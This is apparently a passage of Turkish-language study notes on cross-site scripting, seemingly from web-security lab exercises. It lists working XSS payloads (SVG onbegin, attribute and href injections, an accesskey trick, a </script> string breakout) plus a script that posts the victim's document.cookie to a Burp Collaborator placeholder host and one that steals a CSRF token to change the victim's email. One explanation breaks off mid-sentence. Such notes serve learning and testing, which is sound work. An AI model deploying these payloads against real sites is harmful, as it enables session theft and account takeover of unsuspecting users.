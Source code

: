 "SVG etiketi, `animate`, `attributeName` ve `values` gibi öznitelikleri (attribute) veya olayları (event) kullanabiliyor. Hem `<a>` hem de `<svg>` etiketi birlikte kullanılarak XSS payload'u başarılı şekilde tetiklenebiliyor."

**4- SVG + animatetransform + onbegin Payload:**
`<svg><animatetransform onbegin=alert(1)>` 
"SVG etiketi, animatetransform özniteliği ile beraber onbegin olayını tetikliyor. onbegin ise alert(1) fonksiyonunu çalıştırıyor. animatetransform olmadan "

**5- Kurbanın cookie'sini ele geçirmek:**
```html
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
Cookieleri collabrator ile ele geçirme işlemi fetch ile yapıyoruz.

**6- Kurbanın e-postasını CSRF tokenini de alarak  e-posta değiştirme :** 
```html
<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send(); 
function handleResponse()
{ var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest(); 
changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>
```


#### 2- HTML tag öznitelikleri içerisinde XSS zafiyet örnekleri:

**1- <,> encode edilmiş. sadece tag içerisinde eklemeye izin var :**
`"onmouseover="alert(1) ve "onfocus="alert(1)` 

**2- Her şey encode edilmiş ama tıklanılabilir bir a taginin href bağlantısına yazabilirsin.** 
`javascript:alert`

**3-Access key ile XSS payloadı :**
`?'accesskey='x'onclick='alert(1)` Access key gizli bir parametre olarak sitelerde var olabiliyor. özelliği ise belirlenen karaktere basıldığında bir işlevi gerçekleştirmesidir. Denenebilir.

---
#### 3- Javascript içerisindeki XSS Payload örnekleri:

**1- Bir Javascript verisinin içerisine dahil olma :**
`var searchTerns = ''`  searchvalue kısmından aldığı veriyi bu kısıma yazıyor. Bu kısımda payloadın dışına çıkıp herhangi bir javascript ifade çalıştırmayı denediğimde örnek :`'-alert(1)-'` şeklinde `'` tek tırnak ifadesini `\'` escape ediyor. Fakat payloadı değiştirip `</script><img src=1 onerror=alert(document.domain)>` şeklinde yazdığımızda script tagi burada HTML parsing davranışından dolayı script tagi kendini kapattı sanıyor ve string'den çıkıyor. sonra da img etiketi ile xss payloadını çalıştırıyor. 

Buradaki kilit soru : Neden`</script>`tarayıcı tarafından string değil de HTML olarak yorumlanıyor?

Cevap: Tarayıcıların HTML parse etme mantığıyla ilgili. Bu bir JavaScript değil, HTML parsing davranışıdır. Tarayıcı, `<script>` bloğu içindeyken karşısına `</script>` çıktığı anda script bloğunun bittiğini düşünür.  Bu ifade ister string'in içinde olsun, ister comment içinde olsun, fark etmez.
